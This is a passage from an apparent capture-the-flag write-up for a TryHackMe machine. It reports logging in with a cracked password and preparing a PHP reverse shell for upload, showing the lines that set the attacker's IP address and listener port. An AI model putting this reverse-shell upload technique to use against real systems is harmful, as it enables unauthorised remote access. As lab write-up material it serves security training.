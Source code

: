 So, we got a valid password ie **liverpool**. So lets login with the obtained creds.

![3](/assets/images/thm/undiscovered/3.png)
And we successfully log in.

### Uploading a new file
![4](/assets/images/thm/undiscovered/4.png)

### Content of shell.php
It is a php-reverse-shell with can be obtained from the github. We only have to change the ip and port on this script.
```php
$ip = '10.6.31.213';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
```

### Uploading the file